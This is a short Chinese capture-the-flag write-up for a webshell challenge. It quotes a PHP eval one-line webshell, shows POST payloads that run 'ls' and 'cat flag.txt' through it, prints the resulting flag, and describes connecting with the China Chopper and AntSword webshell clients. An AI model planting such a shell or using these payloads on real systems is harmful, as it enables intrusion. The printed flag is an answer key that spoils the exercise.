 题目显示：
你会使用webshell吗？
<?php @eval($_POST['shell']);?> 

1、在firefox浏览器下点击F12，使用Max HackBar插件，点击Load URL
2、在Post Data中输入shell=system('ls');post提交，发现flag.txt：

你会使用webshell吗？
flag.txt index.php <?php @eval($_POST['shell']);?> 

3、在Post Data中输入shell=system('cat flag.txt');提交，得到

你会使用webshell吗？
cyberpeace{4a615fedc83a8cbfae75bb56950de7ab}<?php @eval($_POST['shell']);?> 


wp:
1、在github上输入中国菜刀，右键添加，输入IP地址（http://220.249.52.133:42244）和密码（shell）
2、连接上之后，看到路径下/var/com/html/下有flag.txt文件，点开txt文件，得到flag


https://www.fujieace.com/hacker/tools/antsword.html
中国蚁剑的下载地址及使用方法